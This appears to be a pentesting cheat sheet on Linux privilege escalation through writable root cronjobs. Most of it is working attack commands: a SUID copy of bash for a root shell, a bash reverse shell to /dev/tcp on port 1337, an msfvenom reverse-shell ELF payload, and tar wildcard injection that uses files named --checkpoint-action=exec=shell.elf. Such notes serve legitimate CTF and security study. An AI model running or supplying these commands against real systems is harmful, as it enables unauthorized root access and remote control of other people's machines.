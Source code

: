 If a cronjob is globally writeable, an underprivileged user can edit the contents to run 
malicious code. For example, you can spawn a root shell with a few steps:

- Edit the cronjob to copy the `/bin/bash/` directory into the `/tmp` directory as a binary 
  named `rootbash`
    cp /bin/bash /tmp/rootbash
    chmod +xs /tmp/rootbash

  Executing the rootbash binary with the -p option (/tmp/rootbash -p) will spawn a shell, with 
  persisting privileged permisions (root shell)

- Edit the cronjob with a reverse shell to connect back to a netcat listener
    bash -i >& /dev/tcp/<local_ip>/1337 0>&1

  Host a netcat listener on your local machine. Once the cronjob runs, the victim machine will 
  connect to your listener, as a root shell since the cronjob is running as root

## Step one is to check if crontabs are exploitable ##

- Check for available cronjobs
    cat /etc/crontab

- If there are available cronjobs, search for their paths
    locate <cronjob>

- Once you have the path to a cronjob, list its permissions
    ls -l /path/to/cronjob

## Wildcard Injection Exploit ##

If a cronjob is globally writeable, runs as root and the tar program can be run as sudo, you can 
exploit the tar program and its arguments to gain root access

- First step is to replace the cronjob with this script:
	#!/bin/bash
	cd /home/vulnerable_user
	tar czf /tmp/backup.tar.gz *

	This script is compressing the contents of an entire directory

- Then create an elf binary that holds a reverse shell and make it executable
	msfvenom -p linux/x64/shell_reverse_tcp LHOST=host LPORT=port -f elf -o shell.elf
	chmod +x shell.elf

- Next, get the file onto the victim machine somehow
  On the victim machine, create these two files in the directory that you're telling the tar 
  program to compress
	touch /home/user/--checkpoint=1
	touch /home/user/--checkpoint-action=exec=shell.elf

- Final step is to wait until the cronjob runs
  The process is going to go like this:
	The script within the cronjob tells the computer to compress the specified directory
	Once the cronjob runs, it's going to compress the directory but will also read the two newly
		created files as arguments for the tar program, so the script will turn into:
	tar czf /tmp/backup.tar.gz file1.txt photo.jpg --checkpoint=1 --checkpoint-action=exec=shell.elf
	This full command is telling the computer to compress the chosen directory: tar czf /tmp/backup.tar.gz
	Then the files within the directory become part of the arguments: file1.txt photo.jpg --checkpoint=1 --checkpoint-action=exec=shell.elf
	The final two arguments run the exploit. They are telling the computer that "upon processing any one file (--checkpoint=1) to then run
		the shell.elf executable (--checkpoint-action=exec=shell.elf)
	This runs the reverse shell and will connect to an attackers netcat listener
